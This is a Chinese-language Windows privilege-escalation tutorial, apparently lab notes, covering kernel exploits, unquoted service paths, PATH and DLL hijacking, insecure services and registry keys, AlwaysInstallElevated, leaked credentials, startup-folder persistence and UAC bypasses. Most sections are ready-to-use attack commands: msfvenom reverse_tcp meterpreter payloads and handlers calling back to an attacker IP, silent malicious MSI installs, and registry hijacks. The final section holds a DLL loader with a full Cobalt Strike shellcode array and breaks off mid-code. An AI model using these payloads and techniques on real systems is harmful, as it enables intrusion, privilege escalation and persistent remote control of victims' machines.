







# 操作系统提权

## Windows提权

### windows系统内核溢出漏洞提权步骤

```
提权步骤:
(1)信息收集,例如查看当前权限,查看版本、补丁等
(2)根据收集到的信息确定可利用漏洞
(3)根据漏洞查找EXP
(4)使用EXP提权
```

```
1.将systeminfo的系统信息重定向到一个文件中。
```

	

```
第一种方式，Windows-Exploit-Suggester是一款提权辅助工具，它是用python开发而成，运行环境是python本，且必须安装xlrd 库其主要功能是通过比对systeminfo生成的文件，从而发现系统是否存在未修复漏洞。
```

```
1.由于该python脚本是需要python2运行，所以在kali需要切换python版本。
update-alternatives --config python
```

	

```
2.先安装pip2，因为kali默认没有自带pip2
wget https://bootstrap.pypa.io/pip/2.6/get-pip.py
sudo python2 get-pip.py
版本升级和安装工具升级
pip2 install --upgrade pip 
pip2 install --upgrade setuptools 
然后通过pip安装xlrd库
python2 -m pip install xlrd==1.2.0
```

		

```
3.上传工具然后运行生成这个xls文件。
python2 windows-exploit-suggester.py --update 更新库会生成xls文件
```

		

```
4、对比信息查找漏洞，发现可以根据这些补丁来使用这些MS的漏洞。
python2 windows-exploit-suggester.py --database 2024-10-14-mssb.xls --systeminfo 1.txt
```

·

```
第二种方式是使用在线辅助提权。但是目前好像已经无法使用。
https://i.hacking8.com/tiquan
http://bugs.hacking8.com/tiquan/
```

```
第三种方式，wesng工具提权
查询是否由远程代码执行
python wes.py systeminfo.txt --impact "Remote Code Execution" -e
```

	

```
查询是否有提权相关的漏洞。
python wes.py 1.txt
```

	

```
相关的EXP搜索网站
https://github.com/offensive-security/exploitdb 
https://www.exploit-db.com 
https://github.com/SecWiki/windows-kernel-exploits
```

### 内核溢出漏洞提权实战

首先在server2008上安装phpstudy，然后上传一个一句话木马，使用中国蚁剑先得到webshell.

	

使用webshell连接。	

发现此时是网站管理员的权限，那么是不够的。

	

把系统信息导出到一个文件，然后从webshell下载到本地。

	

右键下载。

		

把系统信息放到在线的提权网站，判断有哪些漏洞可以使用。

	

比如这个操作系统是server2008，于是查看可以使用的EXP

	

比如使用MS15-051的EXP

		

将ms051通过webshell上传上去。

	

此时提权成system用户。

	

当然上面是第一种方式，还可以把webshell转移到msf会话上。

```
先创建msf的后门木马，并通过webshell上传。
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=7777 -f exe -o test.exe
```

		

```
msf进行监听
use exploit/multi/handler  
set payload windows/meterpreter/reverse_tcp  
set lhost 192.168.15.141
set lport 7777
exploit 
```

	

webshell运行木马文件

	

msf监听成功，会话ID是1

	

```
搜索提权的漏洞
use post/multi/recon/local_exploit_suggester
set session 1
run
```

	

查找这么多漏洞，可以用来提权这个计算机。

	

随便使用其中一个payload进行提权。于是即可提取成功。

	

	

也可以使用cs进行提权。把提权工具包放到cs根目录下。

	

把提权脚本加入其中。

	

	

随便选择一个进行提权。

	

于是获得system权限。

	

### Trusted service paths提权

```
Trusted Service Paths提权原理:
windows服务通常都是以System权限运行的，所以系统在解析服务的二进制文件对应的文件路径中的
空格的时候也会以系统权限进行解析。如果我们能利用这一特性，就有机会进行权限提升。
如果在注册表中存在没有被引号引用起来的服务路径 如果是如下 C:\Program Files\Some
Folder\Service.exe 因为 Program Files 和 Some Folder 都存在空格且没有引号，就可能存在截断，依次寻找
如下的程序并且执行阶段如下：
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\Service.exe
```

```
我们只需要在相应的目录下制作一个恶意的程序，达到提权的目的即可，所以提权的条件如下：
1、服务路径没有用引号引起来
2、服务的路径中存在空格
3、服务以最高权限启动后
4、当前权限具有到对应目录下写文件
```

```
自己在c盘伪造一个路径，以便创建服务。
1、首先创建一个服务，或者自己安装一个软件，路径中存在空格，并且服务的路径中没有引号
sc create "service" binpath= "C:\Program Files\Common Files\service\service.exe" start= auto
```

	

	

```
2、查询服务的启动方式和权限，确定该服务是自动开启，且是由system用户开启。
sc qc service
```

	

```
3、目前已经满足了提权的条件，还有一点就是我们普通的用户需要有向文件目录的写权限
查询权限
icacls "C:"
icacls "C:\Program Files"
icacls "C:\Program Files\Common Files"
```

	

```
发现只有RX 读取和执行，没有写入权限，执行以下给到写入权限
W写权限，R读权限，X执行权限，F完全访问权限，M修改权限
```

	

```
确认在c盘下有写权限。
```

		

```
2、使用命令查找没有配置引号，和带有空格的服务
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\\Windows\\" | findstr /i /v """
```

	

```
3、发现有两个服务，接下俩检查时候具有文件写入的权限
icacls "C:"
icacls "C:\Program Files"
icacls "C:\Program Files\Common Files"
test用户对C盘有F权限，完全访问的权限
```

	

```
对c语言进行编译，主要就是执行恶意木马文件。
然后把木马文件放到这个用户桌面下。
```

		

```
将这个c编译好的文件，放在c盘下，根据漏洞原理就会先执行这个program.exe文件
```

	

```
然后等待这台电脑重启后，根据这个漏洞会截断，所以会执行program.exe,而program.exe直接执行木马文件，就能够提权成功。
```

	

### PATH环境变量提权

```
PATH环境变量提权漏洞原理
PATH环境变量包含很多目录列表，某些执行程序的方法（即在命令行使用ipconfig）仅依赖PATH环境变量来确定未提供程序路径时搜索程序的位置。
简单说就是当用户在cmd命令行中运行一个命令时，若是没有使用绝对路径运行，如“C:\Windows\System32\ipconfig.exe”，直接在cmd中运行“ipconfig”，那么Windows会先在当前目录寻找“ipconfig.exe”，若是没找到，则会根据PATH环境变量里的目录依次去寻找。
通常新增PATH环变量是在最后面添加，若是由于配置不当，导致在最前面新增了 PATH环境变量，那么
在此目录下新建与常用系统命令一样名字的exe程序会优先执行。
```

```
比如说由于管理员的PATH环境变量配置不当，把python的环境变量配置在PATH目录最前面。
```

	

```
2、查找环境变量，发现前面有python作为环境变量PATH的目录。
wmic ENVIRONMENT where "name='path'" get UserName, VariableValue
```

	

```c
那么控制的普通用户，将这段c语言进行编译成ipconfig.exe，并且把这个exe文件放到python环境变量的目录下。
#include<stdio.h>
#include<stdlib.h>
int main(){
    // 使用 system 函数执行 ipconfig.exe
    system("\"C:\\Windows\\System32\\ipconfig.exe\"");
    
    // 使用 system 函数执行 shell.exe
	system("\"C:\\USERS\\test\\Desktop\\shell.exe\"");
    return 0;
}
```

	

```
等待管理员运行这个ipconfig命令
```

	

于是cs提权成功。

	

### 不安全的服务提权

```
不安全服务漏洞原理:
通常 Windows服务都是以 System权限运行的,当由于系统管理员错误配置导致低权限用户可以对某些
服务修改时,可以通过修改服务启动文件的路径“ binpath”,将其替换为恶意程序的路径,这样服务启动时便
会运行恶意程序。
```

```
首先管理员新建一个服务。
sc create pythontest binpath= "C:\python\python.exe"
```

	

```
2、使用subinacl工具给服务设置权限，这个工具一般给网管使用。
比如说给了test能够拥有这个服务的完全控制权限。
subinacl /service pythontest /grant=test=F
```

	

```
使用accesschk工具，发现有一个pythontest服务是具有读写权限。
accesschk64.exe test -cw * /accepteula
也可以用这个命令查看所有服务的哪些用户具有读写权限。
accesschk apache -cw * /accepteula
```

	

```
将这个服务的路径修改成执行恶意脚本的路径。
sc config pythontest binpath= "C:\USERS\test\Desktop\shell.exe"
```

	

```
5、手动启动服务
sc start pythontest
```

	

此时开启服务后，运行恶意脚本就提权成功了。

	

### 不安全注册表提权

```
漏洞原理:
Windows的服务路径存储在Windows的注册表中，若注册表配置不当，当攻击者可以发现使用低权限可以更改注册表的选项的时候，就可以导致提权，可以将 imagepath修改成恶意的文件，重启导致提权
```

```
管理员首先创建一个服务。
sc create pythontest binpath= "C:\python\python.exe" start= auto
```

	

```
假设管理员给这个服务的注册表设置了不恰当的权限。并且给这个普通用户在该服务的注册表上设置了完全控制权限。
```

	

	

```
假设控制了一台机器，但是用户是test.
首先查询计算机的所有服务。
sc query type= all state= all |findstr /i service_name.* |more
```

	

```
使用subinacl工具，根据服务名去查询注册表的权限如何,结果发现这个用户在这个注册表下的服务具有完全控制权限。
shell subinacl /keyreg "HKEY_LOCAL_MACHINE\system\ControlSet001\services\pythontest" /display
```

	

```
查询该服务的 imagepath值
reg query HKEY_LOCAL_MACHINE\system\ControlSet001\services\pythontest /v imagepath
```

	

```
将木马文件shell.exe放到桌面上,然后修改服务的注册表信息，修改服务的路径，让其执行恶意代码。
reg add "HKEY_LOCAL_MACHINE\system\ControlSet001\services\pythontest" /t REG_EXPAND_SZ /v ImagePath /d "C:\USERS\test\Desktop\shell.exe" /f
```

	

```
查询是否替换成功
reg query HKEY_LOCAL_MACHINE\system\ControlSet001\services\pythontest /v imagepath
```

	

```
这个时候apache是没有权限启动服务的，需要管理员重启电脑.
当重启电脑后，获得system权限。
```

	

### 注册表键AlwaysInstall提权

```
提权原理 
注册表键AlwaysInstallElevated是一个策略设置项。windows允许低权限用户以System权限运行安装
文件。如果启用此策略设置项，那么任何权限用户都能以NT AUTHORITY\SYSTEM权限来安装恶意的
MSI(Microsoft Windows Installer)文件。
```

```
首先以管理员身份去查看Windows installer特权功能是否已启用，由于找不到所以没有启用。
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

	

```
运行"中输入gpedit.msc，打开组策略管理器
计算机配置-->管理模板-->Windows 组件-->Windows Installer，将"永远以高特权进行安装"编辑，选择开启
这样低权限的用户就能够以system权限安装msi文件，并且不会出现权限问题，
```

	

	

```
还要设置普通程序的安装可行性，这样就能确保低权限用户点击msi文件安装的问题。
```

	

```
也可以使用如下两个命令进行设置，其实效果和上面是一样的。
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1 /f
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1 /f
```

	

```
此时再去查询注册表中的内容，只要都显示是1，说明普通用户可以使用msf文件进行安装。
```

	

```
此时切换成普通用户来进行提权操作。
比如说已经使用msf会话控制了这台电脑，拥有普通用户的权限。
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=7777 -f exe -o payload.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.15.141
set lport 7777
exploit 
```

```
查看权限
```

	

```
使用提权模块
use exploit/windows/local/always_install_elevated
根据返回的会话设置session的id
set session id号码
run
但是最后具体能不能run成功这个比较玄学，如果run成功会生成一个新的会话，就可以sessions -i 会话id
```

	

```
如果失败了我们可以使用MSF生成 msi文件然后上传上去运行即可
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=6666 -f msi -o payload.msi 
```

```
建立一个新的监听
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.15.141
set lport 6666
```

```
将生成的msi恶意安装脚本，上传上去。
```

	

```
运行上传的msi文件就可以了
execute -f "msiexec.exe /quiet /qn /i payload.msi"
```

	

于是提权成功。

	

```
利用cs提权也很简单
利用CS生成exe文件，然后使用工具exetomsi制作 MSI文件
```

	

```
把制作好的msi上传，然后运行即可。
shell msiexec.exe /quiet /qn /i shell.msi
```

	

### 泄露敏感文件提权

```
提权原理
1.只要我们能知道电脑的最高权限的账号密码，或者一些票据或者凭证我们就可以通过认证，执行最高权限的命令
而某些管理员会在系统上留下包含密码的配置文件 Unattend.xml 文件就是一个例子，它允许对 Windows系统进行大部分自动化设置搜索配置文件。
2.本地凭证泄露:
Windows 具有runas 命令，允许用户使用其他用户的权限运行命令，如果在本地中发现了凭证，就可以利用他提权,第一次输入的时候，提示要输入密码
3.其他的文件泄露 
可能在有的电脑上会发现以下xls或者world或者浏览器的账号密码泄露，我们只要拿到了他的明文的账号密码或者hash就可以提权
```

```
比如管理员曾经在某个普通用户的主机登陆过。并且使用/savecred保存过凭证，那么这个普通用户就能够利用来提权。
runas /savecred /user:administrator cmd
```

	

```
首先使用cs控制该普通用户。
然后收集电脑上的信息和相关配置文件，从而获得敏感数据，比如账号或者密码等等。
比如查看本地是否有凭据。
shell cmdkey /list
然后查看敏感配置文件Unattend.xml
dir /a /s /b C:\Unattend.xml
```

	

	

```
将木马上传好，于是利用凭证获得管理员权限。
runas /savecred /user:administrator shell.exe
```

	

```
查看敏感配置文件是否有账号密码。可以查找到一些用户的账户和密码，但是这里的密码访问不到，但有的主机上密码是被加密，是可以经过base64解密等方式得出密码。
shell type C:\Windows\Panther\unattend.xml
```

	

```
如果得到管理员的密码，即可使用工具psexec来执行上传的木马文件来提权。
shell psexec.exe administrator:Admin@123@192.168.15.145 "C:\Users\test\Desktop\shell.exe"
```

	

	

### 启动项提权

```
提权原理 
windows启动项目录下的脚本可以开机自启，利用这一个特性向上述的目录传入恶意的脚本达到提权的目的，前提是有目录或者注册表的更改权限。
```

```
启动项文件夹如下，只要把文件放进去就会开机自动启动里面的程序。
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
C: \Users\用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
启动注册表如下
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Current\Version\Policies\Explorer\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\Current\Version\RunServicesOnce
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Current\Version\Run\ServicesOnce
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run\Services
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Current\Version\RunServices
HKEY_CURRENT_USER\Software\Microsoft\Windows\Current\Version\Run\Oncel\Setup
HKEY_LOCAL_MACHINE\SOFTWAREMicrosoft\Windows\Current\Version\Run\Once\Setup
HKEY_LOCAL_MACHINE\SOFT\WAREMicrosoft\Windows\CurrentVersion\RunOnce
HKEY_CURRENT_USER\Software\Microsoft\Windows\Current\Version\RunOnce
HKEY_CURRENT_USER\SoftwarelMicrosoft\Windows\Current\Version\Run
HKEY_LOCAL_MACHINE\SOFT\WARE\Microsoft\Windows\Current\Version\Run
```

```
比如说管理员给启动项文件夹设置了普通用户test可读写的权限。
```

	

```
查询文件夹权限，发现test用户具有RW权限。
shell accesschk64.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

	

```
复制木马文件到启动项
shell copy shell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

	

```
此时电脑重启提权成功。
```

	

## 绕过UAC提权

### MSF和CS绕过UAC的方法和插件

```
右键点击提权，选择绕过UAC的方法。
```

	

```
带有星号,于是绕UAC成功，
```

	

```
MSF绕过UAC 
bypassuac模块 
使用该模块提权的使用，当前用户必须是管理员组中的用户，UAC为默认设置
首先使用msf先进行监听靶机。
use exploit/multi/handler  
set payload windows/meterpreter/reverse_tcp  
set lhost 192.168.15.141
set lport 7777
exploit 
```

```
直接使用getsystem会失败，因为有UAC的问题。
```

	

```
使用msf搜索bypassuac的模块
search bypassuac
```

	

```
使用一个模块试试。
use exploit/windows/local/bypassuac
set session 1
run
```

	

```
绕过UAC后再提权，即可提权到system.
```

	

```
RUNAS模块 
该模块会创建一个可执行文件，目标机器会运行一个发起提升权限请求的程序，提示用户是否要继续运行，如果用户选择继续运行程序，就会返回一个system权限的shell
这个模块对用户没有要求，但是普通用户点击需要输入管理员的账号密码，普通管理员点击通过即可。
use exploit/windows/local/ask
set session 1
run
```

	

```
但是这里需要用户点击是才行。
```

	

```
绕过UAC提权成功。
```

	

### 基于白名单AutoElevate绕过UAC

```
提权原理 
利用白名单程序的本质实际上是劫持注册表,这种方法主要是通过寻找autoElevated属性为true的程序,修改其注册表command的值,改成我们想要执行的paylaod,在该值中指明的字段会在这类程序运行时自动执行,类似于默认程序打开,当你以后运行该程序时,这个command命令都会自动执行。
UAC同样也会对系统本身的程序造成影响，微软也不希望运行系统程序也需要询问用户，因为系统程序是安全的。因此，微软则在 UAC 中添加了白名单机制常见白名单如下。
msconfig.exe
taskmgr.exe
perfmon.exe
cleanmgr.exe
sdclt.exe    
dccw.exe
eventvwr.exe(接下来使用这个白名单文件进行演示)
computerdefaults.exe
fodhelper.exe
```

```
该实验环境是win7的普通管理员hsw，目的是绕UAC。
首先运行process Monitor这个工具，点击filter筛选出要监控的进程。
```

		

```
先进行筛选，选择not found
当运行eventvwr后，会弹出很多该进程的动作信息，我们要找到其中没有被发现的command值，只要在里面写入命令，就会使得打开这个文件自动执行恶意命令。
```

	

```
于是找到有not found的command值，只要在里面写入值恶意脚本，那么就可以随便绕过UAC了。
```

	

```
注册表中找到这个指定路径，添加恶意命令来执行恶意脚本。
reg add HKCU\Software\Classes\mscfile\shell\open\command /f /ve /t REG_SZ /d "cmd.exe /c C:\Users\hsw\Desktop\shell.exe"
reg add HKCU\Software\Classes\mscfile\shell\open\command /v DelegateExecute /t REG_SZ
执行这个白名单文件，来自动执行注册表设置好的恶意命令。
shell eventvwr.exe

命令参数解释:
/ve 指的是设置该键的默认值
/t REG_SZ：表示要添加的值类型是 REG_SZ，即一个字符串值
/d 指定数据
/v 表示要设置某个特定的键值名称
/f 表示强制添加，不需要提示。
```

	

```
当执行完成后，就会得到绕过UAC的session.
```

	

### 基于白名单DLL劫持绕过UAC

```
DLL是什么 
dll为动态链接库文件，又称"应用程序拓展"，是软件文件类型。在Windows中许多应用程序并不是一个
完整的可执行文件，它们被分割成一些相对独立的动态链接库文件，即dll文件，放置于系统中，个人理
解类似于我们编程中引入的模块。
DLL提权原理 
如果在进程尝试加载一个DLL时没有指定DLL的绝对路径，那么Windows会尝试去指定的目录下查找这
个DLL；如果攻击者能够控制其中的某一个目录，并且放一个恶意的DLL文件到这个目录下，这个恶意
的DLL便会被进程所加载，从而造成代码执行。这就是所谓的DLL劫持。
DLL的运行查找顺序如下
1、应用程序加载的目录
2、C:\Windows\System32
3、C:\Windows\System
4、C:\Windows
5.加载 DLL 时所在的当前目录
6.PATH环境变量中列出的目录
```

```
从windows7之后，微软为了更进一步的防御系统的dll劫持，将一些容易被劫持的系统dll写进了一个注册表项中，那么凡是在此项目下的dll文件就会被禁止从exe自身所在目录下调用，而只能从系统目录即system32目录下调用，具体这些dll可以再注册表的以下目录查看HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs
```

```
当前采用server2008系统，找到一个白名单的程序 SystemPropertiesAdvanced.exe 位置在C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe 目录下，打开该程序是windows的属性设置，通过进程监控找到加载的DLL文件进行劫持就可以提权
```

	

首先查看到这个计算机有配置java环境变量路径。

	

```
然后先将操作在本地执行，使用procmon工具进行监控，过滤DLL和 NAME NOT FOUND ，寻找可以替换的DLL文件，注意文件的权限是否可以在目录写入，可以看到在C盘的java\bin目录中有一个srrstr.dll被调用，但是没有加载，我们生成恶意的DLL文件看看是否可以被劫持。
```

先做好筛选，只查看该进程的动作。

	

```
发现这个白名单文件在执行的过程中，一直寻找这个dll文件，搜索到环境变量的路径都没有找到，那可以做一个恶意的dll文件放进这个环境变量的目录下，一般环境变量的目录普通用户也是可以访问的。
```

	

```
新建一个dll项目。
```

	

```
然后上线cs，先控制server2008的普通管理员hsw。
然后使用cs生成一个c语言的payload后门文件。
```

	

	

打开这段payload查看源代码，然后复制其中引号的内容。

	

```
将所有的\x替换成,0x
```

	

```c
//然后将下面代码放到devc++进行编译


/* Replace "dll.h" with the name of your header */
#include "dll.h"
#include <windows.h>
#include <stdlib.h>
HANDLE hThread = NULL;
typedef void(__stdcall* JMP_SHELLCODE)();
//其中shellcode就是我们刚刚复制粘贴的cs的shellcode
unsigned char shellcode[800] = {0xfc,0xe8,0x89,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf0,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4a,0x01,0xd0,0x50,0x8b,0x48,0x18,0x8b,0x58,0x20,0x01,0xd3,0xe3,0x3c,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0x31,0xc0,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe2,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xeb,0x86,0x5d,0x68,0x6e,0x65,0x74,0x00,0x68,0x77,0x69,0x6e,0x69,0x54,0x68,0x4c,0x77,0x26,0x07,0xff,0xd5,0x31,0xff,0x57,0x57,0x57,0x57,0x57,0x68,0x3a,0x56,0x79,0xa7,0xff,0xd5,0xe9,0x84,0x00,0x00,0x00,0x5b,0x31,0xc9,0x51,0x51,0x6a,0x03,0x51,0x51,0x68,0x50,0x00,0x00,0x00,0x53,0x50,0x68,0x57,0x89,0x9f,0xc6,0xff,0xd5,0xeb,0x70,0x5b,0x31,0xd2,0x52,0x68,0x00,0x02,0x40,0x84,0x52,0x52,0x52,0x53,0x52,0x50,0x68,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x89,0xc6,0x83,0xc3,0x50,0x31,0xff,0x57,0x57,0x6a,0xff,0x53,0x56,0x68,0x2d,0x06,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x0f,0x84,0xc3,0x01,0x00,0x00,0x31,0xff,0x85,0xf6,0x74,0x04,0x89,0xf9,0xeb,0x09,0x68,0xaa,0xc5,0xe2,0x5d,0xff,0xd5,0x89,0xc1,0x68,0x45,0x21,0x5e,0x31,0xff,0xd5,0x31,0xff,0x57,0x6a,0x07,0x51,0x56,0x50,0x68,0xb7,0x57,0xe0,0x0b,0xff,0xd5,0xbf,0x00,0x2f,0x00,0x00,0x39,0xc7,0x74,0xb7,0x31,0xff,0xe9,0x91,0x01,0x00,0x00,0xe9,0xc9,0x01,0x00,0x00,0xe8,0x8b,0xff,0xff,0xff,0x2f,0x4c,0x35,0x79,0x62,0x00,0x35,0x4f,0x21,0x50,0x25,0x40,0x41,0x50,0x5b,0x34,0x5c,0x50,0x5a,0x58,0x35,0x34,0x28,0x50,0x5e,0x29,0x37,0x43,0x43,0x29,0x37,0x7d,0x24,0x45,0x49,0x43,0x41,0x52,0x2d,0x53,0x54,0x41,0x4e,0x44,0x41,0x52,0x44,0x2d,0x41,0x4e,0x54,0x49,0x56,0x49,0x52,0x55,0x53,0x2d,0x54,0x45,0x53,0x54,0x2d,0x46,0x49,0x4c,0x45,0x21,0x24,0x48,0x2b,0x48,0x2a,0x00,0x35,0x4f,0x21,0x50,0x25,0x00,0x55,0x73,0x65,0x72,0x2d,0x41,0x67,0x65,0x6e,0x74,0x3a,0x20,0x4d,0x6f,0x7a,0x69,0x6c,0x6c,0x61,0x2f,0x34,0x2e,0x30,0x20,0x28,0x63,0x6f,0x6d,0x70,0x61,0x74,0x69,0x62,0x6c,0x65,0x3b,0x20,0x4d,0x53,0x49,0x45,0x20,0x38,0x2e,0x30,0x3b,0x20,0x57,0x69,0x6e,0x64,0x6f,0x77,0x73,0x20,0x4e,0x54,0x20,0x35,0x2e,0x31,0x3b,0x20,0x54,0x72,0x69,0x64,0x65,0x6e,0x74,0x2f,0x34,0x2e,0x30,0x3b,0x20,0x4c,0x42,0x42,0x52,0x4f,0x57,0x53,0x45,0x52,0x29,0x0d,0x0a,0x00,0x35,0x4f,0x21,0x50,0x25,0x40,0x41,0x50,0x5b,0x34,0x5c,0x50,0x5a,0x58,0x35,0x34,0x28,0x50,0x5e,0x29,0x37,0x43,0x43,0x29,0x37,0x7d,0x24,0x45,0x49,0x43,0x41,0x52,0x2d,0x53,0x54,0x41,0x4e,0x44,0x41,0x52,0x44,0x2d,0x41,0x4e,0x54,0x49,0x56,0x49,0x52,0x55,0x53,0x2d,0x54,0x45,0x53,0x54,0x2d,0x46,0x49,0x4c,0x45,0x21,0x24,0x48,0x2b,0x48,0x2a,0x00,0x35,0x4f,0x21,0x50,0x25,0x40,0x41,0x50,0x5b,0x34,0x5c,0x50,0x5a,0x58,0x35,0x34,0x28,0x50,0x5e,0x29,0x37,0x43,0x43,0x29,0x37,0x7d,0x24,0x45,0x49,0x43,0x41,0x52,0x2d,0x53,0x54,0x41,0x4e,0x44,0x41,0x52,0x44,0x2d,0x41,0x4e,0x54,0x49,0x56,0x49,0x52,0x55,0x53,0x2d,0x54,0x45,0x53,0x54,0x2d,0x46,0x49,0x4c,0x45,0x21,0x24,0x48,0x2b,0x48,0x2a,0x00,0x35,0x4f,0x21,0x50,0x25,0x40,0x41,0x50,0x5b,0x34,0x5c,0x50,0x5a,0x58,0x35,0x34,0x28,0x50,0x5e,0x29,0x37,0x43,0x43,0x29,0x37,0x7d,0x24,0x45,0x49,0x43,0x41,0x52,0x2d,0x53,0x54,0x41,0x4e,0x44,0x41,0x52,0x44,0x2d,0x41,0x4e,0x54,0x49,0x56,0x49,0x52,0x55,0x53,0x2d,0x54,0x45,0x53,0x54,0x2d,0x46,0x49,0x4c,0x45,0x21,0x24,0x48,0x2b,0x48,0x2a,0x00,0x35,0x4f,0x21,0x50,0x25,0x40,0x41,0x50,0x5b,0x34,0x00,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x68,0x00,0x00,0x40,0x00,0x57,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0xb9,0x00,0x00,0x00,0x00,0x01,0xd9,0x51,0x53,0x89,0xe7,0x57,0x68,0x00,0x20,0x00,0x00,0x53,0x56,0x68,0x12,0x96,0x89,0xe2,0xff,0xd5,0x85,0xc0,0x74,0xc6,0x8b,0x07,0x01,0xc3,0x85,0xc0,0x75,0xe5,0x58,0xc3,0xe8,0xa9,0xfd,0xff,0xff,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x31,0x35,0x2e,0x31,0x34,0x31,0x00,0x00,0x00,0x00,0x00};
DWORD WINAPI jmp_shellcode(LPVOID pPara)
{
	LPVOID lpBase = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
